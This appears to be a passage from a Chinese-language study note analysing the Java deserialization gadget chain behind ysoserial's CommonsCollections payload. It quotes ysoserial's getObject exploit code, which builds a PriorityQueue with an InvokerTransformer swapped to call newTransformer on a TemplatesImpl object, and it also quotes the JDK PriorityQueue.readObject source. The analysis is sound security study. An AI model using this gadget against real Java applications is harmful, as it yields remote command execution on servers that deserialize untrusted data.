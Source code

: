 ```
/*
    Gadget chain:
        ObjectInputStream.readObject()
            PriorityQueue.readObject()
                ...
                    TransformingComparator.compare()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
 */
```

ysoserial的exp

```java
public Queue<Object> getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;

    return queue;
}
```

反序列化从PriorityQueue开始，进入PriorityQueue的readObject()

> PriorityQueue 一个基于优先级的无界优先级队列。**优先级队列的元素按照其自然顺序进行排序**，或者根据构造队列时提供的 Comparator 进行排序，具体取决于所使用的构造方法。该队列不允许使用 null 元素也不允许插入不可比较的对象(没有实现Comparable接口的对象)。PriorityQueue 队列的头指排序规则最小的元素。如果多个元素都是最小值则随机选一个。PriorityQueue 是一个无界队列，但是初始的容量(实际是一个Object[])，随着不断向优先级队列添加元素，其容量会自动扩容，无需指定容量增加策略的细节。

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```